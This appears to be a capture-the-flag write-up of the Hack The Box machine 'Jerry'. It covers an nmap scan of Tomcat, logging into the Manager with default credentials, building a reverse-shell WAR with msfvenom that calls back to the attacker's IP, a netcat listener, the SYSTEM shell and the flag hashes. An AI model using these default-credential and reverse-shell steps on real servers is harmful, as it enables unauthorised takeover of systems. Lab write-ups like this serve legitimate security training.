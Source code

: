 ```yaml
---
layout: post
title: Jerry
tags: [OSCP, Writeup, Windows, Arbitrary File Upload, Web, File Misconfiguration]
description: "Jerry write-up"
---
```


![Jerry logo](/assets/imgs/jerry/jerry.png)

### This is an easy windows box

## Tools used

------

- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA jerry 10.10.10.95 -v -Pn

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Here’s what nmap teaches us :

- port 8080 (HTTP) - Apache Tomcat 7.0.88

There is only one port open and it's a web port, let's check it :

![Tomcat interface](/assets/imgs/jerry/tomcat_interface.PNG)

This is a default Tomcat page, let's try to connect.

## Exploit

------

Click "Manager App", it asks for authentication :

![Tomcat interface](/assets/imgs/jerry/authentication_required.PNG)

Try default credentials :

- tomcat:tomcat - no
- admin:admin - no
- admin:password - no
- user:password - no
- tomcat:s3cret - yes

![Tomcat connected](/assets/imgs/jerry/connected.PNG)

I'm now connected nice ! Now that I'm connected, I can get a reverse shell thanks to "war upload" ([https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)). I used msfvenom to generate a reverse shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f war > shell.war
Payload size: 1093 bytes
Final size of war file: 1093 bytes
```

Upload the war file :

![War deploy](/assets/imgs/jerry/war_deploy.PNG)

Start a nc listener :

```
nc -lvp 1234
```

Click on the '/shell' button, I'm redirected to this URL :

```
http://10.10.10.95:8080/shell/
```

Go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

And I'm already nt authority\system ! Now go read the flags, there both on the administrator desktop in one file :

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,649,088 bytes free
```

This box was too easy ! 

## Flags

------

### User.txt

```
7004dbcef0f854e0fb401875f26ebd00
```

### Root.txt

```
04a8b36e1545a455393d067e772fe90e
```